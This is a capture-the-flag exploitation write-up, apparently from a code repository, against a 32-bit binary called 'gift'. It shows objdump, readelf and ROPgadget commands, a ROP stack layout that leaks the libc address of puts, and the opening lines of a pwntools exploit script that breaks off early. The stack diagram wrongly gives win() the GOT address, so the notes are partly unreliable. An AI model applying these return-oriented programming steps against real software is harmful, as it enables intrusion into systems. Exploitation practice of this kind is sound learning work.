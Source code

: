 
```
# get plt.puts

% objdump -d gift| grep puts@plt
08048450 <puts@plt>:


# get win()

% objdump -d gift| grep win 
08048703 <win>:


# get got.puts

% readelf -r gift | grep puts
0804d01c  00000507 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0

```

so if we can call 0x08048450(*0x0804d01c), we should leak the address of puts.  
Im still quiet unsure why we need to "pop xyz; ret"; but otherwise it doesnt work  
  
we can find such "gadget":  

```
% ROPgadget --binary gift | egrep "pop ... ; ret"
[...]
0x080483f1 : pop ebx ; ret
[...]

```

so our stack needs to be like this:  
```
+---------------------------+
| 0x08048450     plt.puts() |
+---------------------------+
| 0x080483f1  pop ebx; ret  |
+---------------------------+
| 0804d01c       got.puts   |
+---------------------------+
| 0804d01c       win()      |
+---------------------------+
```

makes some code like this [exploit_v2.py](exploit_v2.py):

```python
% cat exploit_v2.py 
#!/usr/bin/python

from pwn import *
import struct

keycodes = [6419804, 7048451, 1, 5981939, 1809240, 3891630, 1, 2807850, 4265200, 4512418, 1, 5061300, 1303193, 7616025, 1, 6084938]


elf = context.binary = ELF("./gift")
#context.log_level = 'debug'

io = process(elf.path)

offset_eip = 16     # calculated previously

#####
```